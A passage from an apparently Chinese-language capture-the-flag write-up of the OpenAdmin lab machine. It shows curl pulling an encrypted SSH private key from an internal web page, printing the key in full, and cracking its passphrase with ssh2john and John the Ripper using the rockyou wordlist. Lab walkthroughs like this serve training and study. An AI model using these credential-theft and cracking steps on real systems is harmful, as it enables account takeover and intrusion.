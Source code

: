 curl一下，根本不需要index，直接靶机本地curl main即可

![image-20200924204315026]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924204315026.png)得到私钥

```bash
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D



kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>

```

![image-20200924204342134]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924204342134.png)

复制保存。
一看就是加密的私钥
ssh2john
然后算hash

```bash
$ vim id_rsa
$ python /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
$ john --wordlist=/root/Desktop/wordlists/rockyou.txt id_rsa_hash
```
